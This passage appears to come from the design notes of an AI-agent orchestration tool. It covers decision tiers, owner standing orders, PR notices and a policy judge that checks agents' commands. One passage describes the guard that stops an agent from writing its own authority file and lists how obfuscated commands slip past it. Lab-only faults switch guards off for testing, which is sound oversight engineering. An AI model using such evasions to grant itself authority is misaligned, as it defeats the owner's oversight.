charter number and the orders, and the engine reads that same file (the key the
judge uses) before it asks GitHub. Without a warmed entry (the judge is off, or
the entry expired) it uses the reader's own read, cached for `INTENT_TTL` (300 s):
no new `gh` call per pass either way. An edit on GitHub reaches the note within
the cache lifetime.

Roles: an orchestrator and a coder are told that the note is the owner's standing
instruction for the charter, to be acted on without asking again, within its
words, that it covers nothing it does not name, never to edit it, and that the
Chief of Staff or you records orders. The Chief of Staff is told to run `orders
add` when you give a standing order, to read the list back to you, to ask nothing
the order already answers, to `orders remove` when you revoke one, and never to
invent or widen one. `fleet-charter` and `fleet-coordination` say the same,
briefly, and the format.

Faults (Lab only), one per behaviour: `orders-start-only` (the compaction id is
never read, so the orders are never sent again), `orders-wake` (the note wakes
the agent), `anyone-can-order` (the role check is off), `orders-never-judged`
(the judge's question sees only the legacy line). Scenarios O1 to O4 are new.

**Lab proof (v2 2.0.22).** The design assumed v2 represents a compaction as a
message of type `compaction` with a status of running, completed or failed (read
from its API schema and client code, never seen live). Measured in a throwaway
profile on its own service port (49451; a second v2 on another XDG directory
collides with the Lab's service unless its `service.json` names another port),
with the Lab's v2 binary and a scripted model that answers a compaction request
with a template-shaped summary, on a session with fleet metadata `charter: 1`:
`session.compact` returns an inbox-style record (`type` `compaction`, `delivery`
`steer`, `payload` `{}`) whose `id` is the id of the message that follows.
`session.message.list` (with `type=compaction`, newest first, as for any other
type) then returns that message: `type` `compaction`, `id` `msg_...`,
`time.created` in milliseconds, `status`, `reason` (`manual`), and, while
`running` and when `completed`, `summary` and `recent` (the turns kept
verbatim; everything before them, including an orders note, is replaced by the
summary in what the model sees, which is why the note is sent again), when
`completed` also `model`, `cost` and `tokens`, when `failed` an `error`
(`compaction.failed`: "Compaction summary did not match the required template",
which the unmodified scripted model produced; `compaction.unavailable`: "Nothing
to compact yet", on a second compaction with nothing new). The id is the same
from `running` to `completed` (seen by polling twice a second), and a failed
compaction is also a message, with its own id. The shape matches the assumption,
so no code changed; `completed_compaction` and the fake v2 now follow the
measured shape. Against that session the real client code derived the key
`orders:1:612ab2c6:<the completed compaction's id>`, found no such key in the
transcript or inbox, delivered the note (a synthetic message, `steer`, `resume`
false, admitted), found the key in the inbox afterwards (the inbox item carries
`payload.metadata.fleet.keys`, and the conversion filter recognised it), and,
after a turn consumed the note and a second compaction completed, found the old
key in the transcript and the new key pending. The probe, its profile, its
scripted model and its service (the two pids recorded, stopped by pid, never by
name) are gone; the Lab itself was only read. Not measured: an automatic
compaction (`reason` `auto`), which should look the same, and the herdr agent
state during a compaction.

### Decision tiers and the Chief of Staff's orders (PR 18)

Before this PR a decision went straight to you: every `report question`, every
`awaiting-user` label, every pending prompt of every agent landed in your
Decisions list, however small. The owner decided the model: there is **one Chief
of Staff over many orchestrators**, each orchestrator owns one workspace and one
repo, and a decision has a **tier**. An orchestrator never goes straight to you.
It raises a decision to the Chief of Staff (a `report question` or `blocked` to
its boss, and the label `<user>:awaiting-cos` on the issue). The Chief of Staff
then either **resolves** it, using your standing orders, or **escalates** it to
you with `<user>:awaiting-user`. Your panel shows only what is escalated to you.
No hard limit was added: a second orchestrator for a repo is not refused, because
the Chief of Staff is the one who manages that.

**Tiers.** Every decision (`decisions.json`, `--json`, `status`) carries a `tier`:

| Source | Tier |
|---|---|
| An open issue with `<user>:awaiting-user` (`awaiting_label`) | `human` |
| An open issue with `<user>:awaiting-cos` (`awaiting_cos_label`, new) | `cos` |
| An issue with both | `human`: it was escalated |
| A `report question` or `blocked` whose boss has no boss (the Chief of Staff) | `cos` |
| The same report whose boss is itself a worker of someone (a coder reporting to its orchestrator) | `orchestrator` |
| A report about an issue that now carries your label | `human`: the Chief of Staff escalated its issue, so the report that raised it is yours too |
| A pending permission request or question of a fleet agent | `cos`, and `human` once it has waited `decisions_cos_grace_seconds` (default 300; 0 is at once), or at once when the Chief of Staff escalated it |

An agent blocked on a prompt is never hidden from you for good: the grace is a
head start for the Chief of Staff, not a place to lose it. The `orchestrator` tier
shows in the Chief of Staff's view and in that repo's own view, never in yours.
Resolved and answered decisions disappear exactly as before. Under the `tier-flat`
fault every decision is `human`.

**Two reads per repo.** The daemon's awaiting read now covers both labels: one
bounded, paged read per label per repo (never one per issue), under the same
forward-only and cap rules as PR 16 (a capped read says so once in
`github.catch_up.truncated`, naming `awaiting-cos issues` or `awaiting-user
issues`). A webhook event keeps the picture current with no call, as before; the
time a decision has waited survives an escalation. The label names default to the
operating-system user's prefix, like `awaiting_label`; the two must differ.

**Who sees what (views).** `fleet-switchboard decisions [list] [--repo OWNER/REPO]
[--tier cos|human|orchestrator|all] [--json] [--fresh] [--watch]` identifies the
caller by its pane, as `send` does (`--from` is Lab only), and picks a default:

| Caller | Repo | Tier |
|---|---|---|
| The Chief of Staff (role `chief-of-staff`) | every repo | every tier |
| An orchestrator | its own repo (fleet metadata `repo`; `intent_repo` for a charter holder with none) | every tier |
| Anyone else: a plain shell, a TUI that is not a fleet agent, a pane herdr cannot place | every repo | `human` |

A flag overrides its own part and leaves the other at the caller's default. The
first line of the output says plainly which view it printed, for example
`Decisions: repo acme/api, all tiers (for orchestrator)`; a view that mixes tiers
shows each row's tier. `decisions.json` itself holds every tier: the view is
applied by the reader (the command, the panel, the scenario oracle), and `status`
counts `waiting on you` as the human tier and says what else is open (`also open: 2
with the Chief of Staff (1 over 1h), 1 with an orchestrator`; the count is `count_over_an_hour`, decisions that
have waited longer than `DECISION_LONG_WAIT`, 3600 s, the panel's `LONG_WAIT_SECONDS`).

**Escalate, resolve, answer.** Three subcommands for the Chief of Staff (or you in
a plain shell; any other fleet agent is refused and audited as `decisions.refused`,
and is told to raise the decision with `report question` and its awaiting-cos
label). Each derives the list in its own process first (`--fresh`), so an id is
the one the command just saw.

| Command | Does | Judged |
|---|---|---|
| `decisions escalate <id> [--reason "one line"]` | An issue decision, or a report about an issue: your label on, the Chief of Staff's off, on that issue (with the repo's own `gh` account, the token only in the child's environment). A permission request or question: marked yours at once. A report with no issue cannot be escalated: it is refused and says to put it in chat. A PR notice (information that waits on no one, shown with the owner's tier) is never answered "already yours": the command reads that one pull request now, escalates it for its current head when it carries the merge hold (the decisions file can trail a label by a few minutes), and otherwise exits 2 saying it is only a notice and nothing was escalated; a pull request it cannot read exits 1 and changes nothing (#487). `--reason` is a comment on the issue signed with the agent's name, so it does not come back as an event | No: it only surfaces something to you |
| `decisions resolve <id> [--note "one line"]` | Both awaiting labels off the issue (a missing one is not an error). The Chief of Staff answers the worker with `send`, which already resolves a report decision; this removes the labels. A permission request or question is refused: use `answer` | Yes |
| `decisions answer <id> allow\|deny [--note "..."]` / `decisions answer <id> "<text>"` | Replies to an agent's pending permission request (`allow` is `once`, `deny` is `reject`, `--note` is the reason) or question (the text fills the form's one visible field: a string, a yes or no, or a number; a form of several fields is refused and says so) through v2 | Yes |

**The id of a decision.** A write command (`escalate`, `resolve`, `answer`, `supersede`) takes the id the list shows (`fleet-kit#357`) or any natural form of the issue: `OWNER/REPO#357`, `REPO#357` or `#357`. A form that names more than one decision (the same number in two watched repositories) is refused and lists the candidates; name one with its owner and repository. When nothing matches, the error lists the ids of the decisions that carry the same number, so the right form is one copy away. Only the spelling is widened: the role and tier checks and the audit are as before.

"Judged" means what it means for every shell command: the policy judge reads the
command before it runs, against the Chief of Staff's orders (below). The skip
list of PR 11 (a plain `send`, `intent`, ... is the agents' own channel, not
judged) does **not** cover `resolve`, `answer`, `supersede` and `batch` (a batch writes an issue to GitHub, so it is judged
however its quoted rows are written, a quoted pipe or semicolon included); it does cover `decisions` with
no subcommand, `decisions list`, `decisions escalate` and `orders --cos`. The
judge's question would be blind to a bare id, so for a judged `answer`,
`resolve` or `supersede` it is given one more line, read from `decisions.json`: what the
decision is (`permission by api-coder, cos tier: permission: shell rm -rf
build`). An id that starts with `#` must be quoted to count as a plain command.
Under the `answer-unjudged` fault they skip the judge.

**A batch: related findings as one decision.** Twenty-five findings used to be twenty-five rows to
escalate, answer and clear. An orchestrator raises related findings as one:

```text
fleet-switchboard decisions batch --title "Stale issues to close" \
  --row "acme/web#7 | stale cache key, fixed in web#12 | close it" \
  --row "acme/web#9 | duplicate of web#7 | close as duplicate"
```

It creates ONE real GitHub issue in the caller's own repo (its configured repo, never another), labelled `<user>:awaiting-cos`, signed with the caller's name, whose body
holds one Markdown section per row, in full (nothing is cut for the reader; at most 20 rows, the finding at most 4000 characters and the recommendation at most 2500, the body at most 65000; the recorded answer quotes every recommendation, so the 2500 keeps the worst answer under a comment's limit, and an answer that would still be over it is refused before the note, the comment or a label, with its length):

````text
### 1. acme/web#7

**Finding:** stale cache key, fixed in web#12

**Recommendation:** close it

### 2. acme/web#9

**Finding:** duplicate of web#7

**Recommendation:** close as duplicate
````

A batch already open in the older fenced `decision-rows` format is still read.

A row is `<ref> | <finding> | <recommendation>`: the ref is `repo#N`, `owner/repo#N` or an issue URL, and must name an issue
of the batch's own repo (anything else is refused, and nothing is created: the batch is public exactly as that repo
is, so a finding about another, possibly private, repo belongs in a batch raised from that repo); the finding is cut
at 200 characters and the recommendation at 120; an empty part, a ref that names no issue and a code fence are refused,
and so are more than 40 rows (raise the rest as a second batch). Only an orchestrator with a repo may raise one.
The batch's id is the issue's id like any issue decision (`#12`, `api#12`), so existing ids do not change.

The daemon reads the rows from the issue body the hub already holds (the paged listing and the webhook payload
carry it): no read of its own, one parse per change. The decision entry gains `rows` (`ref`, `short`, `finding`,
`recommendation`, `text`) and `raised_by` (the signing agent), and its headline is `<title> (n rows)`. The panel draws
one entry: the headline, one line per row (`web#7: close it`, URLs as short refs, two lines at most), then
`<id> <age>`.

`decisions escalate <id>` works on a batch unchanged: it is one issue, so the owner sees one item. `decisions answer
<id> --as-recommended` (or `--row 2=keep it open`, rows not named keep their recommendation; `--note` is added) first
sends the raising orchestrator a note from the answerer naming the batch, and only once it is delivered posts ONE comment
on the batch issue recording each row's outcome and takes both awaiting labels off it. A note that cannot be delivered
(agent gone, held, error) refuses the answer: nothing is commented, the labels stay, the batch stays in the Chief of
Staff's tier, the command says why and exits non-zero, and the same answer can be run again. If the note went but the comment write failed, a re-run does not send that note a second time (the delivered note is kept, keyed by the batch and every row's outcome and the note text, in the disposable `batch-notes.json`, 100 entries; the key is forgotten once the comment is written, so a later answer, even the same text, sends its own note) and posts the comment once. A row may name an issue that is only being
*proposed* for closing: the code never closes, labels or edits a row's issue. The answer is the record, and the
orchestrator acts on the rows. `answer` keeps its meaning for permission requests and questions, and goes through the
same judge as before. `decisions supersede` (command table) clears several open decisions made moot by one issue.

*Where an escalated request is kept.* An escalation of an issue is the label on
GitHub, which is already the truth. An escalated prompt or question has no issue
to carry it, and the invariant that the audit log is never read by a decision
holds, so the one place is a **small disposable file**, `escalated-requests.json`
in the state directory (`{"<session>:<request id>": "<time>"}`, mode 0600,
written with a lock): the daemon's decisions pass reads it, the daemon prunes it
to the requests pending now, and the escalation is also audited
(`decisions.escalate`, before and after). Deleting it loses only the head start:
the request is yours anyway once the grace has run out. It is the one new file;
it is a second copy of nothing that a derivation could rebuild for a request.

**`labels ensure [--repo OWNER/REPO]`.** Creates `<user>:orchestrator`,
`<user>:awaiting-cos` and `<user>:awaiting-user` where they are missing (every
watched repo by default), each with the repo's own account, never twice
(a label that exists is read, not rewritten). `skills/fleet-setup` runs it when a
repo joins, `bin/switchboard-trial init` creates the new label too, and a
create is audited before and after.

**The Chief of Staff's own standing orders.** PR 17's orders belong to a charter and
are for its orchestrator. These are different: they are what lets the Chief of
Staff answer for you. They are **one local markdown file**, because there is no
good place for them on GitHub yet:

| What | Where |
|---|---|
| Path | `$XDG_CONFIG_HOME/fleet-switchboard/standing-orders.md`, beside `config.json`; config `cos_orders_file` (an absolute path) overrides |
| Content | Free-form markdown, at most 8 KB. A larger file is refused, never cut: `orders --cos` and `status` say so, and nothing is fed to the judge or told to the Chief of Staff from it. HTML comments are not orders: the template's header is a comment |
| Who writes it | You, in an editor. No fleet command writes it, and the judge stops an agent that tries (below) |
| `install` | Makes a template with a comment header explaining the file, if there is none; **never overwrites** one; `--uninstall` leaves it. It is not in the repo, and no test touches a real path |
| `fleet-switchboard orders --cos` | Prints the file and its path (read-only). `status` shows its path, size and mtime, or `none` |

Two things read it:

- **The judge.** For an agent whose role is `chief-of-staff`, `context_of` supplies
  the file's text as the `authority` (it was `none stated`: the Chief of Staff has
  no charter). It is read again only when the file's mtime or size changes (one
  `stat` per call), and the verdict cache key holds the text, so an edit is seen
  at the next call. The model's state holds it whole (a charter's
  orders too). With no ask, `outside_intent` and `outside_scope` stay off;
  `hard_to_reverse` and `speaks_for_you` read the orders. Orders can only stop a
  pointless question; they never loosen a deny (the judge only tightens,
  invariant 9). Under `cos-orders-unfed` the file is ignored.
- **The Chief of Staff itself.** PR 17's note path, with the file as its source and
  no second path: `OrdersFacts` finds the Chief of Staff by **role**, not charter,
  and makes a fact keyed `orders:cos:<hash8 of the text>:<compaction id|start>`,
  delivered as a note that never wakes, at its start, after each completed
  compaction and when the file's text changes. `orders_note` renders it as the
  file's own text under `[switchboard] standing orders for <name> (the owner's, to
  you):` and the closing line "These are the owner's standing orders to you.
  Answer for the owner only within their words; anything they do not name goes to
  the owner." A touched file with the same text sends nothing.

**The guard.** An agent must not grant itself authority. A deterministic judge rule,
beside the charter-edit rule, with no model and no GitHub read: any fleet agent
(the Chief of Staff included) whose shell command writes the orders file is
`speaks_for_you` and `hard_to_reverse` both. The command names the file's path or
its file name, and is a redirect into it, `tee`, `sed -i`, `mv`, `cp`, `rm`,
`ln`, `dd`, `touch`, an editor, or an interpreter one-liner (`python -c`, `perl -e`,
`node -e`, ...); the `edit` tool on the path counts too. It is a guard, not a
proof: a shell can obfuscate (build the path from pieces, a variable, a script, an
alias, another tool, `rm -r` of the directory), and it sees only what the command
says. The file's mode, your editor and the audit log are what stand behind it.
Under `anyone-edits-cos-orders` the rule is off.

**The panel.** `launch` and `bootstrap` put two variables in the pane's environment
(the existing `launch_env` mechanism; not secrets): `FLEET_SWITCHBOARD_ROLE` and
`FLEET_SWITCHBOARD_REPO` (the repo, or `intent_repo` for a charter holder given
none). The Decisions plugin picks its view from them: a `chief-of-staff` pane
shows every tier and repo, a pane with a repo shows that repo (every tier), anything
else shows the `human` tier. The title says which (`Decisions (3) all`, `Decisions
(2) acme/api`, `Decisions (1) for you`); the empty, stale and unset rows keep their
rules and never disappear. The view is chosen first and the repo grouping applies to what it selects: the
Chief of Staff's panel has a group for every repo, a pane with a repo has that repo's group alone, and each
decision keeps its headline and its `<id> <age>` line. **A TUI that was already running has neither the
variables nor the new plugin: restart it.** The agent's own command line (`fleet-switchboard decisions`) uses the
same defaults.

**Roles and skills.** An orchestrator and a coder: a decision you cannot make goes
up as `fleet-switchboard report question "..."` to your boss and, on the issue, as
`<user>:awaiting-cos`; NEVER apply `awaiting-user` yourself; the answer arrives as a
switchboard message, and you remove your `awaiting-cos` label when it is settled.
The Chief of Staff: on each wake work your list (`fleet-switchboard decisions`);
for each decision your orders cover, answer it (the orchestrator via `send`, a
prompt via `decisions answer`) and `decisions resolve` it, quoting the order in one
line; for each they do not cover, `decisions escalate <id> --reason ...`; never
both; never invent or widen an order; never edit the orders file; if unsure,
escalate. One short line per outcome; do not restate what is unchanged. The
role-file size guards were not raised: older prose was shortened to make room.
`fleet-charter`, `fleet-coordination` and `fleet-setup` say the same, briefly.

**Lab proof (v2 2.0.24, throwaway profile).** `permission.reply` and the form reply
were verified against a real v2 before any code relied on them, in a throwaway
profile: its own XDG and `HOME` directories under a temporary directory, a v2 server
started with `opencode serve` on its own port (49391, not the real service's
49374; its own pid recorded and stopped by that pid, never by name), and
`opencode api --server <url>` calls to it. `GET /openapi.json` names the operations
(`session.permission.list|get|create|reply`, `session.form.list|create|get|cancel|reply`)
and their shapes:

| Operation | Request | Answer |
|---|---|---|
| `session.permission.reply` | `POST /api/session/{sessionID}/permission/{requestID}/reply`, body `{"decision": "once"\|"always"\|"reject", "message": <text or null>}` and nothing else | An empty reply. The request leaves `session.permission.list`; a second reply is `404 PermissionNotFoundError`; a bad `decision` is `400 InvalidRequestError` ("Expected Permission.Reply") |
| `session.form.list` | `GET /api/session/{sessionID}/form` | `{"data": [{"id": "frm_...", "sessionID", "title", "fields": [{"key", "type", "title", ...}]}]}`: the operation PR 4 had only guessed at exists, and has this shape |
| `session.form.reply` | `POST /api/session/{sessionID}/form/{formID}/reply`, body `{"answer": {<field key>: <string, number, boolean or list of strings>}}` | An empty reply. The form leaves the list; `session.form.get` then shows `state: {"status": "answered", "answer": {...}}` |

A pending permission needed a session whose `permissions` rule says `ask` for the
action (`{"action": "shell", "resource": "*", "effect": "ask"}`): with none, the
default effect was `deny`, and `session.permission.create` answered at once with
`deny`. The create then returned `ask` and the request showed in the list. Checked
live: a permission answered `once` (gone from the list), one answered `reject`
with a message (gone; the create call that was waiting returned), a repeat
(`404`), a bad decision (`400`), a one-field string form answered with its
`{"db": "postgres"}` (`answered`). The permission replies and the form reply are
**verified**, and so are the switchboard's own `V2Client.permission_list`, `form_list`, `permission_reply` and `form_reply`, run against that server through a throwaway wrapper (they listed one prompt and one form, replied `reject` with a message and a one-field answer, left both lists empty, and a repeat reply was `http 404`); question replies for a form with more than one field, a multiselect or a
file are not built, so they are refused with the field list. Every probe, the profile, its server and the probe
sessions were removed; the live service, the owner's config and state and herdr
were not touched.

Faults (Lab only), one per behaviour: `tier-flat` (every decision is shown to you),
`cos-orders-unfed` (the judge ignores the orders file), `anyone-edits-cos-orders`
(the guard is off), `answer-unjudged` (`decisions answer` and `resolve` skip the
judge). Scenarios T1 to T6 are new (O, S and SG ids are taken).

### PR notices (a heads-up before a merge)

You should hear about every PR before it merges without the Chief of Staff relaying each one. An
orchestrator sends a **notice** when it opens a PR (not only before it merges), so the notice sits in your panel
while CI and review run. A notice is information, not a decision: it has no tier you answer, is never counted
in `Decisions (n)`, and wakes nobody.

**Sending.** `fleet-switchboard notice pr <owner/repo#N | PR URL> ["note"]`. The caller is identified by its pane,
as `report` does (`--from` is Lab only). A reference that is not a PR is refused: an issue URL, a bare number, or
any other URL. The notice is recorded in the disposable state file `pr-notices.json` (mode 0600, replaced
atomically, like `report-riders.json`); no message is sent and no agent is woken, so it costs the Chief of Staff no
turn. Like `report` it makes sure the daemon runs. Sending it again for the same PR refreshes the note and keeps
the first time. `fleet-switchboard decisions` does not list notices: they are not decisions.

**Checked when sent, withdrawable, and short-lived when unreadable (issue 99).** `notice pr` reads the PR once before it records
(the cached facts first, else ONE `gh pr view` with the usual short timeout) and refuses a number that is not an open pull request:
nothing is recorded, with one line (`... is not a pull request I can find (a mistyped number, or an issue)`, or `... is merged, not an open
pull request`). Only a `gh` answer that says there is no such PR counts as not found; a lookup that is unreadable for any other reason
(network, auth, a timeout, an answer that is not JSON) is accepted: best effort, it never blocks. `fleet-switchboard notice withdraw <owner/repo#N | PR URL>`
removes the notice. It is allowed for any agent that sent the notice and for the boss recorded with it (the sender's `reports_to` when it
was sent), and refused with one line for anyone else; for a PR with no notice it is a no-op that says so (exit 0). A withdrawal is audited
(`notice.withdrawn`: the PR, who withdrew, the sender and boss). With the notice gone, a comment or check on that PR no longer routes to the old
sender or its boss: it routes by the PR's own references like any PR with no notice, or is unrouted and audited. A notice whose PR cannot be
read for one hour of OBSERVED time (`PR_NOTICE_UNREADABLE_SECONDS`; it was seven days, so a mistyped number woke the wrong agent for days) is dropped at
the next pass with an audit line (`notice.dropped`, reason `unreadable for 60 minutes of observed time`, and the error). Observed means: seconds between
passes of the running daemon in which `gh` demonstrably worked (some notice read fine, or `gh` printed its exact missing-PR answer, `Could not resolve to a PullRequest with the number of N.`, for one: an answer, unlike an auth, network, scope, keyring or git-remote error, none of which is ever taken for a missing PR), added only for the notices that still cannot be read, at most
ten minutes per pass (`PR_NOTICE_OBSERVE_MAX`). A pass where every read fails is an outage of `gh`, the auth or the network, not a bad notice: nobody
counts and nobody drops, however long it lasts. A daemon start begins every count again (downtime is not counted). A PR that becomes readable again clears its clock
(`unreadable_since`, `unreadable_for` in `pr-notices.json`).

**Deriving.** `derive_decisions` has a fourth source (after the issues, the pending requests and the reports).
Each notice becomes one entry in `decisions.json`:

| Field | Value |
|---|---|
| `kind`, `tier` | `notice`, `human` |
| `id` | `pr:<repo>#N` (the repo's name, `owner/name` only when two notices share a name); stable |
| `headline` | `<repo>#N <title>`, at most two panel lines |
| `additions`, `deletions`, `files` | the PR's size, drawn as `+120/-14, 5 files` |
| `ci` | `green`, `failing`, `pending` or `none`, from the check rollup |
| `review` | `approved`, `changes requested` or `none` |
| `state`, `stale` | `open`, and whether the last read of the PR failed (the facts shown are then the last good ones) |
| `agent`, `note`, `since` | who sent it, its note, when it was first sent |
| `merge_after` | the notice time plus `pr_notice_hold_minutes`, or `null` (see below) |

**The PR's facts.** The daemon's GitHub picture holds an issue's or PR's title, size and state (the hub's cached
`pulls/N` read) but not the checks or the review, so it cannot answer on its own. The source runs ONE
`gh pr view <N> --repo <repo> --json title,state,additions,deletions,changedFiles,statusCheckRollup,reviewDecision`
per open notice, read with the repo's configured account (`gh_users`, as every other read), and keeps the answer
for 60 seconds in memory: passes every few seconds cost a handful of reads a minute, never one per pass per notice.
A failed read (also kept for 60 seconds, so it is not retried every pass) leaves the last facts, marked stale; it
never drops the notice.

**Lifetime.** A notice stays until its PR is merged or closed (read from the same facts). It then drops at the
next pass and its record in `pr-notices.json` is pruned by the daemon (a read-only `decisions --fresh` forgets
nothing). A notice whose PR cannot be read for 7 days (the first failed read is recorded in the file) is dropped
and logged once as `notice.dropped` in the audit log.

**The hold window.** The config key `pr_notice_hold_minutes` (a number of minutes, 0 or more; default `0`, off)
is validated like the other keys. When it is above 0 each entry carries `merge_after` (the notice time plus the
window; a re-send does not move it) and the panel adds `merges after HH:MM UTC` to the facts line (UTC, as every
time the daemon writes). When it is 0 nothing is shown. Nothing enforces it: the tool-call judge is unchanged, and
the window is a time the person can see and answer ("hold") before an orchestrator merges.

**`MERGE: captain` PRs are a decision first.** The notice's `gh pr view` also reads the PR's body, author, head
commit and reviews. When the body's first non-empty line starts with `MERGE: captain` (nothing else of the body is
read or shown) and someone other than the author reviewed (approved, requested changes or commented) at the exact
head commit, the entry is kind `captain`, tier `cos`, with the same id `pr:<repo>#N`, the PR link, the head and the
reviewers: a decision for the Chief of Staff, in place of the heads-up (never both), counted with the decisions and
never in the `human` tier until the Chief of Staff runs `decisions escalate` (which holds for that head only). If
the reviews cannot be read, it stands on the notice alone and says `review not detectable`. A review at an older head,
the author's own review, or no review leaves a plain heads-up. It ends when the PR merges or closes; `resolve`,
`answer` and `supersede` are refused. Agents in one fleet share a GitHub login, so
review evidence is a formal review by a non-author at the head **or** a signed comment
(`<!-- fleet-switchboard:from=NAME -->`) whose text names the exact head (all 40 characters, or a prefix of at least 7,
as a whole token), from a signer that is neither a placeholder nor any agent that ever sent the notice (it keeps up to 20 distinct senders across re-sends); only the last 50 comments are
read, only the signature and the head token are looked at (never shown), and at most 5 reviewers are listed, each as
`name (review state)` or `name (comment)`. A PR with no evidence is a plain heads-up, except that 2 hours
(`CAPTAIN_NO_REVIEW_SECONDS`) after the notice was first recorded it is listed anyway, marked `no review seen`, so
nothing stalls silently; a new head does not restart that clock, and a later review replaces the mark with normal
evidence. Limit: only a PR that carries a notice is covered.

**An escalation of a `MERGE: captain` PR survives a restart.** `decisions escalate` on a captain decision marks its PR and head in
`escalated-requests.json`. The daemon prunes that file each pass to what is still pending, and a PR it cannot read (a restart's
first passes, a 404 under the wrong account, an outage) derives no captain entry, so its marker used to be pruned and the decision
came back at the cos tier. A captain marker now stays for as long as the PR's notice is on file; it leaves when the notice does
(the PR merged or closed). A marker only ever matches the head it names, so a new head is not the person's until escalated again.
Notice ids name their repo in full (`pr:owner/repo#N`) whenever more than one repo is in play (the watched repos and the notices'
own, each counted once), and by the short name when there is one; the form no longer flips with the watch set.

**The panel.** The `fleet-decisions-tui` plugin draws a `Heads-up (n)` section after `Waits on you` and before
`Waits on cos`, grouped by repo like the others and visibly separated. Each entry is its headline (two lines at
most), a facts line (`+120/-14, 5 files, CI green, approved`, then `merges after HH:MM UTC` when set, and `(stale)`
when the last read failed), then `<id> <age>`. Notices never appear under `Waits on you` or in its count. A pane
for one repo shows that repo's notices; the Chief of Staff's and yours show all.

**A merged pull request's merge and hold labels come off (#559).** The daemon's pass looks at the `pull_request` events the hub keeps. For each one that says merged and carried a fleet `merge-captain` or `hold-*` label (the fleet's own prefix, by exact name), it reads the pull request FRESH and, only when GitHub says it is MERGED, removes just those labels through the label write path with the repo's own account and writes one `merged.labels_removed` audit line (the pull request and the labels). An event that says merged while the fresh read does not (stale or forged), a failed read (audited once as `merged.labels_read_failed`, tried again after five minutes), and a repository that is not watched or is excluded (never read) remove nothing. The reads have a cap of their own per pass (the impact hold's `calls_per_pass`, default 6, spent after the impact hold's own); a pull request is handled once. A merge whose webhook event was missed (the daemon was down: the hub keeps its events in memory only) is not cleaned, and the sweep no longer reports it. It lowers no guard: the pull request has already merged. The sweep's S9 finding (`a merge or hold label left on a closed, unmerged PR`) skips a merged pull request and still reports a closed, unmerged one. Code: `bin/merged_labels.py`.

**A pull request ejected from the merge queue wakes its orchestrator (#584).** A failed merge queue run removes a pull request from the queue and nothing marks it: the pull request stays open. Per watched repository the daemon lists the recent `merge_group` runs (ONE read, no oftener than every 2 minutes) and the NEWEST run of each pull request decides (the pull request is read from the run's branch `gh-readonly-queue/<base>/pr-<N>-<sha>`). A failed run, no older than an hour, of a pull request that is still OPEN and holds no queue entry (one GraphQL read: `gh pr view` has no queue field) wakes the pull request's orchestrator ONCE per failed run with one line: the repository, the pull request, the run id, the time, and the failing tests read from the run's `failing-tests` artifact; with no artifact, the failed job names; with an artifact that cannot be used (not JSON, `complete` false, another run's), a plain statement that the result is unreadable, never a guess. The line also says whether the same test failed on other ejected pull requests of that repository in the last 2 hours (a flake on the base branch reads differently from the pull request's own fault). **A stuck entry (#696).** GitHub does not always remove a failed entry: it can sit in the queue in state `UNMERGEABLE` and block the pull requests behind it. The same read also returns the entry's state, so a failed run whose pull request still holds an `UNMERGEABLE` entry wakes the orchestrator the same way (same ledger key per run, so a later removal wakes nobody again; same untrusted-text rules; no added read) with a line that says the entry is stuck and blocks those behind it. An entry in any other state is live and wakes nobody. A cancelled run, a run a newer one superseded, a pull request still in the queue, a merged or closed one, and a repository that is excluded or not watched wake nobody (the last two cost no read at all; a repository that runs no merge queue costs its one list). The text taken from the artifact and from job names is untrusted: at most 20 names of 200 characters, control characters, mentions, links, slash commands and token-shaped strings removed, each name quoted as data. Reads are bounded: at most 10 artifact downloads a pass inside the pass's call budget (the impact hold's `calls_per_pass`, default 6). A run is remembered in `queue-ejections.json` once its wake was sent, so a restart wakes nobody twice. A pull request whose orchestrator cannot be told (nobody owns it, or the orchestrator its `notice pr` record names is not running) wakes the Chief of Staff (found by its metadata role `chief-of-staff`; with several, the first by name, fixed when the line is built) with FACTS only: the repository, the pull request, the run, how many tests or jobs failed and of what kind (`tests`, `jobs` or `unreadable`), and the run's URL where the names are. No name taken from an artifact or a job reaches the Chief of Staff. The line says "No orchestrator owns this pull request" only when nobody is named, else "Its orchestrator NAME is not running" (a name that only a charter gives, with no notice record, reads as owned by nobody). It is sent once per failed run and at most once an hour per pull request: the runs between are audited as `queue_ejection.suppressed` and counted on the next line (audit `queue_ejection.unowned_woke`); with no Chief of Staff to tell it is retried after 5 minutes. Nothing is skipped silently: a pass that skipped something (`discovery`, `budget`, `queued`, `retry`, `no_chief`) writes ONE `queue_ejection.skipped` audit line with the reasons and counts (not repeated while it stays the same), and the line that settles a run (`queue_ejection.woke` or `unowned_woke`) carries `seen_after` (seconds from the run's end to its first sight), `why` (`first_list` since the daemon started, or `list_interval`) and `held` (the skips it waited through). Config: `queue_ejections`. Code: `bin/queue_ejections.py`.

**The newest run of each check decides the CI verdict (#534).** `statusCheckRollup` lists every run at a head, so a red run that was re-run green stays in it. The verdict (`pr-state`, the gate's checks row, the notices' facts line) and the checks list read it through `bin/ci_runs.py`, in this order: a check (identified by its workflow and name; a status context by its context) with ANY unfinished run is pending, whatever older runs say (so an older run that finishes after a newer one started never hides the running one); otherwise the completed run that STARTED last decides (so a green re-run supersedes the red run it replaced, and an older attempt that fails late does not override a newer run), with runs that started together ordered by completion and a full tie keeping every tied run (a failing one fails). An entry with no time is older than one with a time; an entry that names no check is its own check; a check is listed once. Nothing is ever read greener by guessing. The time-to-green measure in `measure_row` reads the rollup for a metric, not a verdict, and is unchanged.

### The waiting-on-the-person sweep (#117)

Everything waiting on the person should be in their Decisions panel, and nothing in it stale, kept true by the switchboard
rather than by an agent's memory. The daemon runs a deterministic sweep (no model) over what GitHub shows. With no `sweep` key at all it runs in **shadow**, and so does `{}`:
findings are audited (`sweep.finding`) and counted in `status`, nobody is woken and nothing is withdrawn. `"enabled": true`
is the only way to wake the Chief of Staff and withdraw stale decisions. `"sweep": false` turns it fully off (no reads, no
writes). The audit line's `woken` is true only for a finding the pass's wake carried and remembered: in the sweep, every due finding (named, or counted in the fact's "+N more"); in triage, the findings the digest named (an overflow beyond `max_findings` is not carried and stays due) and the other-owner flags that rode along in its text (alone they never wake). A finding whose wake goes later the same day is logged once more, and a restart does not log again a finding raised inside the re-alarm window (#849). Keys: `enabled` (false), `aged_cos_hours` (2), `comment_window_days` (7), `max_findings` (20, the most one
fact lists), `realarm_hours` (6, the debounce per item), `person_names` (["the owner"], the names the phrases look for), `calls_per_pass` (12, the most `gh` calls one pass makes, 4 to 100).

| Kind | Finding |
|---|---|
| S1a / S1b | an open issue with a `## Decision required` section and no awaiting label / an awaiting label and no such section |
